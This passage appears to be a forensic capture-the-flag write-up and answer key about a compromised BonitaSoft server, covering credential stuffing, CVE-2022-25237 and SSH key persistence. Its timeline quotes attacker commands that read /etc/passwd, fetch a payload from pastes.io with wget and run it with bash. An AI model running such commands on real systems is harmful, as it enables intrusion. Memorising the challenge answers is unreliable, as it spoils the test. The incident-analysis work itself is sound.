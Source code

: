   Time (UTC)   Description                                                         Reference
  ------------ ------------------------------------------------------------------- -----------
  15:31:27     Credential stuffing attack starts (156.146.62.213)                  PCAP
  15:35:05     Successful login and upload / execute / delete `whoami`             PCAP
  15:37:32     Credential stuffing attack stops                                    PCAP
  15:38:38     Upload / execute / delete `cat /etc/passwd`                         PCAP
  15:38:52     Upload / execute / delete `wget https://pastes.io/raw/bx5gcr0et8`   PCAP
  15:38:53     TLS log for `pastes.io`                                             Logs
  15:39:18     Upload / execute / delete `bash bx5gcr0et8`                         PCAP
  15:39:18     TLS log for `pastes.io`                                             Logs

### Question Answers

1.  We believe our Business Management Platform server has been
    compromised. Please can you confirm the name of the application
    running?

    BonitaSoft

2.  We believe the attacker may have used a subset of the brute forcing
    attack category - what is the name of the attack carried out?

    Credential Stuffing

3.  Does the vulnerability exploited have a CVE assigned - and if so,
    which one?

    CVE-2022-25237

4.  Which string was appended to the API URL path to bypass the
    authorization filter by the attacker's exploit? (No special
    characters)

    i18ntranslation

5.  How many combinations of usernames and passwords were used in the
    credential stuffing attack?

    56

6.  Which username and password combination was successful?

    `seb.broom@forela.co.uk:g0vernm3nt`

7.  If any, which text sharing site did the attacker utilise?

    `pastes.io`

8.  Please provide the filename of the public key used by the attacker
    to gain persistence on our host.

    `mihffgra4unv`

9.  Can you confirmed the file modified by the attacker to gain
    persistence?

    `/home/ubuntu/.ssh/authorized_keys`

10. Can you confirm the MITRE technique ID of this type of persistence
    mechanism?
